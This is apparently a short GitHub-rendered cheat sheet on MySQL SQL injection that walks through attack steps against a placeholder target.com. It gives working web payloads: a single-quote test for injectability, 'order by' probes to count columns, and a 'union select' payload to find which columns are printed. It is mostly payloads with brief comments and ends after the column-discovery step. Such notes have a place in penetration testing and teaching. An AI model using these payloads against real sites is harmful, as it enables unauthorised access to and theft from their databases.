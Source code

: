 # SQL Injection

## MySQL
Verify SQL injection: add a simple quote`'`. 
```bash
# Examples
http://target.com/path/?id=5'
```

Sorting columns to find maximum column:
```bash
http://target.com/path/?id=-1 order by 1
http://target.com/path/?id=-1 order by 2
http://target.com/path/?id=-1 order by 3
http://target.com/path/?id=-1 order by 4
# ...
# Try until it stops returing errors, now we have the column count
```

Verify injectable column:  
```bash
http://target.com/path/?id=-1 union select 1, 2, 3, 4
# Select count is depending on the table, maybe try the previous example
# One of the columns will be printed with the respective number
```
